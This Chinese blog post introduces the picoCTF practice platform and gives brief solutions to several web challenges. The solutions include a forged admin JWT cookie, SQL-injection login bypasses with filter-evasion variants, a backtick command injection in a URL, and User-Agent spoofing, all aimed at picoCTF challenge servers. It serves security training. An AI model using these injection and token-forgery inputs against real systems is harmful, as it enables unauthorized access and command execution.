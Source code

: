 ```yaml
---
title: picoCTF平台学习及使用
date: 2022-10-04 20:07:16
permalink: /pages/2362e9/
categories:
  - skill
  - tool
tags:
  - 
author: 
  name: JavaInterview.cn
  link: https://JavaInterview.cn
titleTag: Java
---
```


## 地址

    https://play.picoctf.org/practice

![](../../../media/pictures/skill/picoctf.png)

## 试题举例

列题举例：

一、JaWT Scratchpad	
    
    curl "https://jupiter.challenges.picoctf.org/problem/63090/"  -H "Content-Type: application/x-www-form-urlencoded"  --data "user=admin" -H "Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJpYXQiOjE1NzA5Njg2NDB9.77pnOGlEdwL7MtxHHS6ZKYD5z1O8w_-SFnzPGyNo9t8" -s | grep pico

二、Irish-Name-Repo 1
    
    curl "https://jupiter.challenges.picoctf.org/problem/33850/login.php" --data "username=admin'--&password=1" && echo

三、caas
    
    https://caas.mars.picoctf.net/cowsay/%60cat%20falg.txt%60


四、picobrowser

    curl --user-agent "picobrowser" "https://jupiter.challenges.picoctf.org/problem/26704/flag"

五、Client-side-again

    查看源代码拼装结果

六、dont-use-client-side

    根据规则拼装


七、web-gauntlet

    Round 1
    Filter: or
    Username: admin' --
    Password: 123
    Actual Query: SELECT * FROM users WHERE username='admin' -- AND password='123'
    
    Round 2
    Filter: or and = like --
    Username: admin' union select * from users where '1
    Password: 123
    Actual Query: SELECT * FROM users WHERE username='admin' union select * from users where '1' AND password='123'
    
    Round 3
    Filter: or and = like > < --
    Username: admin';
    Password: 123
    Actual Query: SELECT * FROM users WHERE username='admin';' AND password='123'
    
    Round 4
    Filter: or and = like > < -- admin
    Username: ad'||'min';
    Password: 123
    Actual Query: SELECT * FROM users WHERE username='ad'||'min';' AND password='123'
    
    Round 5
    Filter: or and = like > < -- union admin
    Username: ad'||'min';
    Password: 123
    Actual Query: SELECT * FROM users WHERE username='ad'||'min';' AND password='123'
    Flag
    All rounds have been passed, the page of round 6 says "Congrats! You won! Check out filter.php". Refresh filter.php again it shows the source code of filter.php and flag is at the end of the page.




## 总结
从picoctf平台中的思考

1.	查看源代码的方法
2.	根据规则拼装的方法
3.	Curl命令请求的方法
4.	Sql注入的方法
5.	谷歌百度的方法
6.	平时学英语的方法
7.	GitHub的方法
8.	年代及Tag的方法
9.	主次优先的方法
10.	懂得取舍的方法
11.	循序渐进的方法
12.	模拟环境的方法


对达克效应（高估自己现象）的理解
1. 轻装上阵
2. 空杯心态
3. 大道至简
4. 知行合一



